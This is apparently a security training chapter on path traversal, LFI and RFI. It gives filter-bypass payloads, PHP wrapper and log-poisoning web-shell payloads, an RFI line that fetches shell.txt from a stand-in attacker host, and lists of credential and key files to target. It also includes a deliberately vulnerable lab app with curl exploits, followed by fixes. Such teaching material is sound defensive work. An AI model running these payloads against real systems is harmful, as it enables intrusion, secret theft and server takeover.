





This is Chapter 3 of the Server-Side notebook — Notebook 26, and it completes the notebook's arc: SSRF
made the server *fetch* a dangerous URL, file upload made it *store and run* dangerous content, and
this chapter makes it *read and include* dangerous files. All three share a root cause — attacker-
controlled input steering a server operation — and here the operation is *file access*. When user
input reaches a filesystem path without proper validation, an attacker can read files outside the
intended directory (**path traversal**), cause the application to *include and execute* a local file
(**Local File Inclusion, LFI**), or pull in and execute a *remote* file (**Remote File Inclusion,
RFI**).

These flaws sit on a spectrum of severity. **Path traversal** (a.k.a. directory traversal) lets an
attacker read arbitrary files the web server can access — source code, configuration with database
credentials, `/etc/passwd`, SSH keys, application secrets — which is already high impact as
information disclosure. **LFI** goes further: because the file is *included* (interpreted) rather than
merely read, an attacker who can get their own code into *any* file on disk (an uploaded image, a log,
a session file) can turn LFI into **remote code execution**. **RFI**, where the included file is
fetched from an attacker's server, is the most direct path to RCE but is rarer in modern
configurations. Together they are a canonical escalation ladder from "read a filename parameter" to
"own the server."

This chapter builds the model of how input becomes a path, teaches path traversal and its many filter
bypasses, then works through the LFI-to-RCE techniques (PHP wrappers, log/session poisoning) and RFI,
with a reproducible lab. Everything is **authorized-only**: reading arbitrary files and executing code
are high-impact actions on someone else's system, so you test only in labs you own or explicitly-scoped
engagements, prove impact with the *least sensitive* file that is convincing (a benign marker,
`/etc/hostname`, a non-secret config key) rather than dumping secrets, and never exfiltrate real
credentials or data.

## Part 1: How User Input Becomes a File Path

Web applications constantly build filesystem paths from user input: serving a requested document,
loading a template or language file, displaying an avatar, downloading an invoice. The vulnerable
pattern is concatenating user input into a path that the code then opens, includes, or serves:

```php
// Vulnerable: user-controlled 'file' concatenated into a path and read.
$file = $_GET['file'];                 // e.g. ?file=report.pdf
echo file_get_contents("/var/www/files/" . $file);   // opens /var/www/files/report.pdf
```

The developer *intends* `file` to be a document name within `/var/www/files/`. But nothing constrains
it to that directory: if the attacker sends `file=../../../../etc/passwd`, the resulting path is
`/var/www/files/../../../../etc/passwd`, which the filesystem resolves to `/etc/passwd` — a file far
outside the intended directory. The `../` ("dot-dot-slash") sequence means "parent directory", and
enough of them walk up to the filesystem root, from which any absolute path is reachable.



The distinction that drives severity is **what the code does with the path**:

| Operation | Example function | Outcome |
|---|---|---|
| **Read/serve** the file | `file_get_contents`, `readfile`, `open`, `sendFile` | Path traversal → arbitrary file **read** |
| **Include/execute** the file | `include`, `require` (PHP), template loaders | LFI → file read **and code execution** |
| **Fetch+include remote** | `include("http://...")` with `allow_url_include` | RFI → direct **RCE** |

The same input flaw is a disclosure bug through a *read* sink and an RCE bug through an *include* sink.
Recognising which sink the input reaches tells you the ceiling of the attack. Any parameter that looks
like a filename, path, template name, language/locale, theme, page, or document reference is a
candidate: `?file=`, `?page=`, `?template=`, `?lang=`, `?doc=`, `?download=`, `?path=`, `?include=`,
`?view=`.

## Part 2: Basic Path Traversal — Reading Arbitrary Files

The core technique is supplying `../` sequences to climb out of the intended directory to a target
file. Enough `../` to reach root is harmless (you can't go above `/`), so testers use many:

```http
GET /download?file=../../../../../../etc/passwd HTTP/1.1
```

`/etc/passwd` is the canonical proof file on Linux: world-readable, always present, and its recognisable
`root:x:0:0:...` content unambiguously demonstrates traversal without disclosing secrets. On Windows,
`C:\Windows\win.ini` or `C:\Windows\System32\drivers\etc\hosts` serve the same role, using backslashes:

```http
GET /download?file=..\..\..\..\..\Windows\win.ini HTTP/1.1
```

**High-value target files** — what an attacker actually goes for after proving traversal (read the
*minimum* sensitive file needed; enumerate breadth only within scope):

| Target (Linux) | Why it matters |
|---|---|
| `/etc/passwd` | User enumeration; classic proof file |
| `/etc/hostname`, `/etc/issue` | Benign proof of read |
| `/etc/os-release`, `/proc/version` | OS/kernel fingerprint (benign) |
| App source (`config.php`, `settings.py`, `.env`, `wp-config.php`) | DB creds, API keys, secrets |
| `/proc/self/environ`, `/proc/self/cmdline` | Process env vars (often secrets), command line |
| `~/.ssh/id_rsa`, `/root/.ssh/authorized_keys` | SSH keys → lateral movement |
| `~/.bash_history`, `~/.mysql_history` | Command history (may contain creds) |
| `/var/log/apache2/access.log`, `auth.log` | For log poisoning → RCE (Part 6) |
| `/var/lib/php/sessions/sess_*` | Session data → poisoning (Part 6) |

| `/var/www/html/.git/config` | Source repo → full source disclosure |
| `/etc/shadow` (if readable) | Password hashes (usually root-only) |

| Target (Windows) | Why it matters |
|---|---|
| `C:\Windows\win.ini`, `\System32\drivers\etc\hosts` | Benign proof files |
| `web.config`, app config | Connection strings, secrets |
| `C:\Windows\System32\config\SAM` | Password hashes (usually locked) |
| IIS logs (`C:\inetpub\logs\...`) | Log poisoning |
| `%SYSTEMROOT%\repair\SAM` | Backup password hashes (legacy) |

**Bug-bounty relevance:** path traversal proving arbitrary file read is a solid High (Critical if it
reaches credentials/keys). Prove it with `/etc/passwd` or a benign file first; if you must show
sensitive impact, read a *single* config key or note the file is readable and *redact* — never dump
full credential files. The finding is "arbitrary file read"; one clean example establishes it.

## Part 3: Path-Traversal Filter Bypasses

Applications defend traversal by filtering `../`, and — exactly as with SSRF and upload filters — the
filters are routinely bypassable. Work through these systematically when a naive `../` is blocked.

**URL and double URL encoding.** The web server or app may decode `%2e%2e%2f` (`../`) *after* the
filter runs, or the filter may not decode at all:

```text
..%2f..%2f..%2fetc%2fpasswd            # %2f = /
%2e%2e%2f%2e%2e%2f...                  # %2e = .
..%252f..%252f...                      # double-encoded: %25 = %, so %252f → %2f → /
```

Double-encoding (`%252f`) defeats filters that decode once and then check, because the *first* decode
turns `%252f` into `%2f` (not `/`), passing the check, and a *second* decode (by another layer) yields
`/`.

**Nested/doubled traversal sequences.** A filter that strips `../` *once*, non-recursively, is beaten
by nesting so that removal *creates* a new `../`:

```text
....//....//etc/passwd                 # strip "../" once → "../../etc/passwd"
..././..././                           # variations that survive naive stripping
```

**Absolute paths.** If the app doesn't force a base directory (or you can escape it), an absolute path
skips traversal entirely: `file=/etc/passwd`.

**Non-recursive strip + prefix/suffix tricks.** If the app *prepends* a base directory
(`/var/www/files/` + input), you traverse out. If it *appends* an extension (`input` + `.php`), older
PHP could be defeated with a **null byte** (`../../etc/passwd%00` truncates the appended `.php`) — a
legacy but classic trick. Path **truncation** (very long paths, trailing `/.`, or dot/slash padding)
historically defeated length-limited checks.

**Mixed separators / case (Windows).** `..\`, `..%5c` (`%5c` = `\`), mixed `../` and `..\`, and
case variations bypass Windows filters.



| Bypass | Payload | Beats |
|---|---|---|
| URL encoding | `..%2f..%2fetc%2fpasswd` | Filter on literal `../` |
| Double encoding | `..%252f..%252f` | Decode-once-then-check |
| Nested sequences | `....//....//` | Non-recursive single strip |
| Absolute path | `/etc/passwd` | Missing base-dir enforcement |
| Null byte (legacy) | `../../etc/passwd%00.png` | Appended-extension check |
| Backslash / encoded | `..%5c..%5c`, `..\..\` | Windows `/`-only filters |

## Part 4: Local File Inclusion — From Read to Execution

**Local File Inclusion (LFI)** occurs when the vulnerable sink *includes* the file — interprets it as
code or a template — rather than just reading it. The classic PHP pattern:

```php
// Vulnerable: user input drives include(), which EXECUTES the included file as PHP.
$page = $_GET['page'];               // e.g. ?page=home
include("/var/www/pages/" . $page . ".php");
```

Here `include` doesn't just read the file — it *runs* any PHP inside it. With traversal
(`?page=../../../../etc/passwd%00` on legacy, or a wrapper on modern PHP) you can read arbitrary files,
*and*, crucially, if you can get PHP code into *any* file the server can include, LFI executes it. That
"any file with my code" is the bridge from LFI to RCE (Parts 5–6).

Two immediate LFI behaviours distinguish it from plain traversal:

- **Included non-PHP files are echoed** — including `/etc/passwd` prints its contents (it has no PHP to
  execute), giving file read.
- **Included files *with* PHP are executed** — this is the dangerous property. Your goal escalates from
  reading files to getting PHP-containing content included.

The appended `.php` (a common pattern) is why wrappers and null bytes matter: to read a non-`.php`
target you must defeat the appended extension. On modern PHP (null byte removed since 5.3.4), the
**PHP stream wrappers** are the primary technique.

## Part 5: PHP Wrappers — Source Disclosure and Code Execution

PHP exposes **stream wrappers** — pseudo-protocols usable wherever PHP opens a "file" — and several turn
LFI into powerful primitives. This is the heart of modern LFI exploitation.

**`php://filter` — read source code (including `.php`).** Normally including a `.php` file *executes*
it, so you can't see its source. The `php://filter` wrapper applies a conversion filter; base64-encoding
the file lets you retrieve the *source* rather than executing it:

```text
?page=php://filter/convert.base64-encode/resource=config
# includes config.php, but base64-encodes it first → you get the base64 of the SOURCE, decode offline
```

This discloses application source and secrets (DB creds in `config.php`, etc.) without execution — a
top LFI technique for reconnaissance and secret theft. Decode the returned base64 to read the file.

**`php://input` — execute posted PHP (RCE).** If `allow_url_include` is on, `php://input` makes
`include` read the *request body* as the included "file" — so you POST PHP code and it executes:

```http
POST /?page=php://input HTTP/1.1
Content-Type: text/plain

<?php system($_GET['cmd']); ?>
```

**`data://` — inline code (RCE).** With `allow_url_include`, the `data://` wrapper supplies the included
content inline, base64 or plain:

```text
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=
# the base64 decodes to <?php system($_GET['cmd']); ?> → executed
```

**`expect://` — direct command execution.** If the `expect` extension is loaded (uncommon),
`expect://id` runs commands directly. **`zip://`/`phar://`** can include code from within uploaded
archives — pairing with the upload chapter (a `phar` polyglot uploaded as an image, then included).

| Wrapper | Requires | Effect |
|---|---|---|
| `php://filter/convert.base64-encode/resource=X` | LFI | Read source of X (incl. `.php`) without executing |
| `php://input` | `allow_url_include=On` | Execute PHP from the POST body → RCE |
| `data://text/plain;base64,...` | `allow_url_include=On` | Execute inline PHP → RCE |
| `expect://cmd` | `expect` ext loaded | Direct command execution |
| `phar://`/`zip://` | uploadable archive | Include code from an archive → RCE (w/ upload) |



**Bug-bounty relevance:** `php://filter` source disclosure is a reliable, safe way to demonstrate LFI
impact (show you can read `config.php`'s source) without executing anything. Escalation to RCE via
`php://input`/`data://` requires `allow_url_include` (often off), so the log/session-poisoning path
(Part 6) is the common RCE route when wrappers are unavailable.

## Part 6: LFI to RCE Without Wrappers — Log & Session Poisoning

When `allow_url_include` is off (the modern default), you can still reach RCE by getting your PHP onto
disk in a file the server will include, then LFI-including it. The classic techniques:

**Log poisoning.** Web servers log attacker-influenced data — notably the `User-Agent` and the
requested path — into access/error logs. Inject PHP into a logged field, then include the log file via
LFI; when included, the PHP in the log executes:

```http
GET / HTTP/1.1
User-Agent: <?php system($_GET['cmd']); ?>        # this lands in the access log
```

```text
# Then include the poisoned log via LFI and run commands:
?page=../../../../var/log/apache2/access.log&cmd=id
# the include() runs the PHP that was written into the log → RCE
```

Common log paths: `/var/log/apache2/access.log`, `/var/log/nginx/access.log`,
`/var/log/apache2/error.log`, `/var/log/auth.log` (SSH login attempts — inject via a crafted username),
`/var/log/mail`, and IIS logs on Windows. The log must be readable and includable by the web user.

**PHP session poisoning.** If you can control a value stored in your PHP session (a username, a
preference), it's written to the session file (`/var/lib/php/sessions/sess_<PHPSESSID>`). Put PHP in
that value, then LFI-include your session file:

```text
# 1. Set a session value containing PHP (via a form/param the app stores in $_SESSION)
# 2. Include the session file (PHPSESSID from your cookie):
?page=../../../../var/lib/php/sessions/sess_<your-PHPSESSID>&cmd=id
```

**`/proc/self/environ` and `/proc/self/fd`.** On some configs, `/proc/self/environ` (process
environment, which includes the attacker-controlled `User-Agent` in CGI setups) can be included to
execute injected PHP; `/proc/self/fd/N` can reach open file descriptors including logs.

**Email/other-input poisoning.** Any attacker-controlled data written to an includable file — an
uploaded file (the upload chapter's LFI-to-RCE chain), a mail spool, a data file — is a vector.

```mermaid
sequenceDiagram
    participant A as Attacker
    participant S as Server (LFI, allow_url_include off)
    A->>S: GET / with User-Agent: <?php system($_GET['cmd']); ?>
    S->>S: writes UA into access.log
    A->>S: ?page=../../var/log/apache2/access.log&cmd=id
    S->>S: include(access.log) → executes the injected PHP
    S-->>A: output of `id` → RCE confirmed
```

This is why LFI is rated as potential RCE, not just file read: the log/session/upload poisoning routes
turn "include a local file" into "execute my code" even with wrappers disabled. **The upload
connection:** as covered in Chapter 2 Part 10, an uploaded polyglot image included via LFI executes —
upload provides "code on disk", LFI provides "include it".

## Part 7: Remote File Inclusion (RFI)

**Remote File Inclusion (RFI)** is LFI's more direct cousin: the include sink accepts a *URL*, and with
`allow_url_include` on, the server fetches and executes a file from the *attacker's* server:

```text
?page=http://attacker.example/shell.txt
# server fetches attacker's shell.txt and executes it as PHP → immediate RCE
```

`shell.txt` on the attacker's server contains `<?php system($_GET['cmd']); ?>`. RFI is the cleanest
LFI-to-RCE — no poisoning needed — but requires `allow_url_include=On`, which is **off by default** in
modern PHP, making RFI far rarer than it once was. It persists in legacy apps and misconfigurations.

RFI also overlaps SSRF (Chapter 1): the server makes an outbound request to an attacker URL, so RFI can
double as an SSRF vector, and the `data://` wrapper is a "remote-ish" inline variant that works with the
same `allow_url_include` flag. **Filter bypasses** for RFI mirror the others — appended extensions are
defeated with a `?`/`#` to comment out the suffix (`http://attacker/shell.txt?` makes an appended
`.php` part of the query string), and protocol/encoding tricks apply.

| Property | LFI | RFI |
|---|---|---|
| Included file location | Local disk | Attacker's remote server |
| Requires `allow_url_include` | No (wrappers/poisoning for RCE) | **Yes** |
| Prevalence | Common | Rare (default-off) |
| Direct RCE | Via wrappers/poisoning | Directly (host a shell) |
| Also an SSRF vector | No | Yes (outbound fetch) |

## Part 8: Hands-On Lab — Traversal, LFI Wrappers, and Log Poisoning

A reproducible lab: a deliberately vulnerable file-serving/include app you attack with traversal,
`php://filter`, and log poisoning, then harden. Local and yours.

### 8.1 The vulnerable app

```python
# lfi_app.py — INTENTIONALLY VULNERABLE (models PHP include semantics). Lab only.
from flask import Flask, request
import os
app = Flask(__name__)
BASE = "pages"; os.makedirs(BASE, exist_ok=True)
open(os.path.join(BASE, "home.txt"), "w").write("welcome home")
open("secret_config.txt", "w").write("DB_PASSWORD=lab-secret-123")   # "outside" the pages dir
LOG = "access.log"

@app.route("/view")
def view():
    page = request.args.get("page", "home")
    with open(request.headers.get("User-Agent", ""), "a") if False else open(LOG, "a") as lf:
        lf.write(request.headers.get("User-Agent", "") + "\n")        # logs UA (poisoning target)
    path = os.path.join(BASE, page)                                    # BUG: no traversal check
    try:
        data = open(path).read()
        # Simulate include() executing <?php ... ?> markers (lab only):
        if "<?php" in data:
            import re, subprocess
            code = re.search(r"system\(['\"](.+?)['\"]\)", data)
            if code: return subprocess.run(code.group(1), shell=True, capture_output=True, text=True).stdout
        return data
    except Exception as e:
        return f"error: {e}", 404

if __name__ == "__main__": app.run(port=5000)
```

### 8.2 Exploit 1 — path traversal (arbitrary read)

```bash
curl -s "http://127.0.0.1:5000/view?page=../secret_config.txt"
# -> DB_PASSWORD=lab-secret-123        traversal out of ./pages to a secret file
curl -s "http://127.0.0.1:5000/view?page=../../../../etc/passwd"
# -> root:x:0:0:...                    arbitrary file read
```

### 8.3 Exploit 2 — encoding bypass

If `../` is filtered, use URL/double-encoding:

```bash
curl -s "http://127.0.0.1:5000/view?page=..%2fsecret_config.txt"      # %2f = /
curl -s "http://127.0.0.1:5000/view?page=..%252fsecret_config.txt"    # double-encoded (if a layer decodes)
```

### 8.4 Exploit 3 — log poisoning to "RCE"

Inject PHP into the logged User-Agent, then include the log:

```bash
# 1. Poison the log via the User-Agent header:
curl -s "http://127.0.0.1:5000/view?page=home" -H 'User-Agent: <?php system("id") ?>'
# 2. Include the poisoned log — the injected code "executes":
curl -s "http://127.0.0.1:5000/view?page=../access.log"
# -> uid=1000(...)      command execution via log poisoning + LFI
```

### 8.5 The fixes, demonstrated

```python
import os
BASE_ABS = os.path.realpath("pages")
@app.route("/view")
def view():
    page = request.args.get("page", "home")
    # Resolve the final path and require it stays within BASE (canonicalization):
    full = os.path.realpath(os.path.join(BASE_ABS, page))
    if not full.startswith(BASE_ABS + os.sep):
        return "forbidden", 403                       # traversal blocked
    # Better: allow-list the permitted names entirely:
    if page not in {"home", "about", "contact"}:
        return "not found", 404
    return open(full).read()
```

Re-running the exploits fails: `os.path.realpath` collapses the `../` (and encoded forms once the
framework decodes them) and the `startswith(BASE)` check rejects anything outside `pages/`; the
allow-list rejects `access.log`/`secret_config.txt` outright. Never *include/execute* user-named files,
and disable `allow_url_include` in PHP.

### 8.6 PortSwigger path-traversal drills

```text
- "File path traversal, simple case"                                       → Part 2
- "...traversal sequences blocked with absolute path bypass"               → Part 3 (absolute)
- "...traversal sequences stripped non-recursively"                        → Part 3 (....//)
- "...with superfluous URL-decode of the request"                          → Part 3 (double-encode)
- "...validation of start of path"                                         → Part 3 (base-dir prefix)
- "...validation of file extension with null byte bypass"                  → Part 3 (null byte)
```

For LFI wrappers/poisoning and RFI, the DVWA "File Inclusion" module and HTB/THM LFI rooms are the best
hands-on drills.

## Part 9: Finding These Bugs — A Testing Methodology

Traversal/LFI/RFI are found by identifying every parameter that reaches a file operation and probing it
systematically:

**Locate file-path parameters.** Proxy the app and look for parameters that name files, pages,
templates, languages, themes, or downloads: `file`, `page`, `path`, `doc`, `template`, `lang`, `view`,
`include`, `download`, `img`, `theme`, `style`. Also check parameters whose values *look* like paths or
filenames even if not obviously named so, and `POST` bodies / JSON / headers (a `Referer`- or
`X-*`-driven include).

```mermaid
flowchart TD
    A["Find file-ish parameter"] --> B["Baseline: does value map to a file?"]
    B --> C["Traversal: ../../../etc/passwd (+ Windows variant)"]
    C -->|blocked| D["Bypass: encode / double-encode / nested / absolute / null (Part 3)"]
    C -->|read works| E["Arbitrary read confirmed → target config/keys (minimal)"]
    E --> F{Include sink? (executes?)}
    F -->|"content executed"| G["LFI → wrappers / poisoning → RCE"]
    F -->|"content served raw"| H["Path traversal (read only)"]
    F -->|"accepts URL + fetches"| I["RFI → host shell → RCE"]
```

**Confirm read vs include.** Request a known non-code file (`/etc/passwd`): if its contents come back
verbatim, it's a read sink (traversal); if a `.php` file's *source* doesn't appear but the page behaves
as if executed, it's an include sink (LFI) — confirm with `php://filter` (source comes back base64) vs
direct include (executes). Test whether a remote URL is fetched (RFI) by pointing at your listener
(OOB, like SSRF's Collaborator in Chapter 1).

**Escalate methodically.** Read → `php://filter` for source/secrets → attempt RCE via
`php://input`/`data://` (if `allow_url_include`), else log/session/upload poisoning → RFI if a URL is
accepted. Try both Linux and Windows target files based on fingerprinting.

**Tooling.** `ffuf`/`wfuzz` with traversal wordlists (SecLists `Fuzzing/LFI/*`) automate payload
sweeps; `LFISuite` and Burp Intruder with an LFI payload set speed up bypass discovery. Always confirm
by hand and prove with a benign file first.

**Bug-bounty relevance:** demonstrate with `/etc/passwd` or `php://filter` on a non-secret file;
escalate to RCE only enough to prove it (a single `id` via poisoning), and never exfiltrate real
secrets or persist a shell. Frame impact as "arbitrary file read" or "remote code execution via LFI"
with the exact parameter and payload.

## Part 10: Real-World Impact, CVEs & Escalation

Traversal and inclusion flaws are perennial and high-impact:

- **Path traversal in web servers/frameworks** recurs as critical CVEs — traversal in reverse proxies,
  application servers, and file-download endpoints regularly exposes arbitrary files (source, configs,
  keys). Traversal in archive/extraction and in static-file handlers is common.
- **LFI-to-RCE via log poisoning** and **`php://filter` source disclosure** are staples of PHP-app
  compromise (older CMSs, custom apps), frequently the initial foothold on HTB/real targets.
- **RFI** drove mass PHP compromise historically (pre-`allow_url_include=Off`); it persists in legacy
  and misconfigured stacks.
- **`/proc/self/environ` and session-file inclusion** are classic escalation routes documented across
  countless writeups.
- **Traversal in file-upload/download and cloud/storage path handling** exposes other tenants' files in
  multi-tenant systems.

These map to OWASP **A01 Broken Access Control** (unauthorized file access) and **A03 Injection** (the
inclusion/execution case). The escalation ladder is the chapter:



**CTF relevance:** LFI/traversal challenges are ubiquitous — read a flag file via `../`, disclose source
with `php://filter`, or chain log poisoning to RCE — and reward exactly Parts 2–6; picoCTF, HTB, and THM
web boxes lean on them heavily.

## Part 11: Traversal and Inclusion Beyond PHP

PHP's `include` semantics make it the poster child for LFI/RFI, but traversal and inclusion flaws exist
across every stack — the sink and the RCE path differ, but the "user input reaches a file operation"
root cause is identical. Recognising the non-PHP variants keeps you from dismissing a finding because
"it's not PHP."

**Java / JSP.** Traversal in `new File(userInput)`, `getResourceAsStream`, or a `RequestDispatcher`
include exposes files; JSP `<jsp:include>` / `<%@ include %>` driven by user input can include local
resources. Java's `..\`/`../` handling and the historic `..;/` (semicolon path-parameter) bypass on
some servlet containers are traversal vectors. Zip/jar traversal (zip-slip, Chapter 2) applies too.

**.NET.** `Server.MapPath`, `File.ReadAllText`, and static-file handlers with user paths yield
traversal; Windows separators (`..\`, `..%5c`) and ADS (`::$DATA`) are the platform-specific tricks.
`web.config` disclosure exposes connection strings.

**Node.js.** `fs.readFile`/`res.sendFile`/`res.render` with unsanitised paths give traversal; `path`
handling differences and `%2e%2e%2f` decoding are the bypasses. Template engines (EJS/Pug) whose
template *name* is user-controlled can include local templates. Note Node has no `allow_url_include`
equivalent, so "RFI" isn't the concern — but SSRF-style fetch-then-render can be.

**Python.** `open(user_input)`, `send_file`, and Flask/Django static handlers; `os.path.join` does
**not** protect against absolute paths (`os.path.join('/base', '/etc/passwd')` → `/etc/passwd`), a
frequent surprise. Template-name injection into `render_template(user)` can include local templates.

**Template injection adjacency.** When user input controls a *template name or path*, traversal blurs
into **Server-Side Template Injection (SSTI)** territory if the input reaches template *content* — a
distinct class (its own chapter elsewhere) but a common neighbour: a "theme"/"template" parameter that
selects a file can sometimes be pushed into rendering attacker content.



**Security relevance:** the defense is stack-agnostic — canonicalize and verify containment, or use an
allow-list/indirection — but the *proof* and *escalation* differ by stack (PHP → wrappers/poisoning;
Java → jar/servlet quirks; .NET → Windows files/`web.config`; Node/Python → template-name inclusion).
Fingerprint the stack first, then choose payloads and target files accordingly. The `os.path.join`
absolute-path pitfall in Python is worth memorising: joining with an absolute second argument silently
discards the base, so a `?file=/etc/passwd` bypasses a naive "prepend the base dir" defense entirely.

## Part 12: Advanced LFI — Filter Chains, phar, and Wrapper Depth

Modern LFI exploitation has techniques beyond the classic wrappers, worth knowing for hard targets
where `allow_url_include` is off and no obvious poisoning vector exists.

**PHP filter chains to RCE (`php://filter` as a code generator).** A powerful recent technique turns
`php://filter` from a *read* primitive into an *RCE* primitive on LFI-only bugs. By chaining many
built-in conversion filters (iconv encodings, base64, etc.), an attacker can make the filter *emit
arbitrary bytes* — including a valid PHP payload — as the "file" content that then gets included and
executed, using **only** the filter wrapper and requiring no file to write and no `allow_url_include`.
Tools like `php_filter_chain_generator` build the (very long) filter-chain payload:

```text
# Conceptual — the generator emits a php://filter/... chain whose OUTPUT is your PHP payload:
?page=php://filter/convert.iconv.<...long chain...>/resource=php://temp
# When include() processes it, the chained filters synthesise "<?php system($_GET[0]);?>" → RCE
```

This made many "LFI without an obvious RCE path" bugs directly exploitable, and is why LFI should
always be treated as *potential RCE* on PHP regardless of `allow_url_include`.

**`phar://` deserialization.** The `phar://` wrapper, when used to *access* a crafted PHAR archive
(which you may have uploaded as an "image", Chapter 2), triggers PHP object **deserialization** of the
PHAR's metadata — reaching `unserialize()` gadget chains for RCE even through functions like
`file_exists`/`fopen` that merely *touch* the path. This connects LFI/upload with the deserialization
class.

**Wrapper stacking and `/proc` techniques.** Combining wrappers (`php://filter` over `zip://`), using
`/proc/self/fd/N` to reach open descriptors (including logs the process holds open), and
`/proc/self/environ` (where CGI setups place the attacker-controlled `User-Agent`) are additional
routes when standard paths are blocked.

**Truncation and path-limit tricks (legacy).** Very long paths, trailing `/././...`, and
null-byte/length games historically bypassed extension appends and length checks; mostly patched but
still seen on old stacks.

| Advanced technique | When to use | Result |
|---|---|---|
| PHP filter chains | LFI, `allow_url_include` off, no poison vector | Direct RCE via wrapper output |
| `phar://` deserialization | Can place a crafted PHAR (e.g. via upload) | RCE via unserialize gadget chain |
| Wrapper stacking / `/proc/self/fd` | Standard paths blocked | Reach logs/descriptors → RCE |
| `/proc/self/environ` | CGI + UA reflected into env | Execute injected PHP |

**Security relevance:** these techniques mean an LFI on a modern, "hardened" PHP app (wrappers for
upload off, `allow_url_include` off) is *still* frequently escalatable to RCE via filter chains or
phar. When assessing impact, don't stop at "file read" — the ceiling for PHP LFI is code execution far
more often than defenders assume, which is exactly why the defense is "never include user input,"
full stop, rather than "block the obvious wrappers."

## Part 13: Detection & Defense Angle

Defense centers on *not letting user input choose file paths* and *canonicalizing rigorously*. In
priority order:

**1. Avoid user-controlled file paths entirely; use allow-lists / indirection.** The strongest fix:
never pass user input to a file operation. Map user choices to files via a server-side lookup table
(`?page=home` → an internal ID → a known safe path), so the user selects an *identifier*, never a path.
An allow-list of permitted values eliminates the class.

**2. Canonicalize, then verify containment.** If you must build a path, resolve it to its absolute,
canonical form (`realpath`/`os.path.realpath`/`Path.getCanonicalPath`) and verify it stays within the
intended base directory (`resolved.startsWith(base + separator)`) *after* resolution — this defeats the
encoding/nesting/absolute-path bypasses because it checks the *real* target, not the input string.

**3. Reject traversal indicators and decode consistently.** Reject input containing `../`, `..\`, null
bytes, and encoded variants; decode *fully* before validating (avoid the decode-once-then-check gap that
double-encoding exploits). But treat this as defense-in-depth *on top of* canonicalization, not instead
of it.

**4. Never `include`/execute user-named files; disable dangerous PHP settings.** Don't drive
`include`/`require`/template loading with user input. Set **`allow_url_include=Off`** (kills RFI and
`php://input`/`data://` RCE) and **`allow_url_fopen=Off`** where feasible; restrict `open_basedir` to
confine file access to a directory.

**5. Sandbox and least-privilege the file access.** Run the web process with minimal filesystem
permissions (can't read `/etc/shadow`, SSH keys, other apps), use `open_basedir`/chroot/containers to
confine reachable files, and separate secrets from web-readable locations.

**6. Protect the poisoning vectors.** Store logs and session files where the web user can't *include*
them, and don't let attacker input reach an includable file (ties to the upload defenses, Chapter 2).

**Reference: safe file access in three stacks.** The correct pattern is the same everywhere —
resolve to an absolute canonical path and verify containment, or (better) map an identifier to a known
file. Concretely:

```python
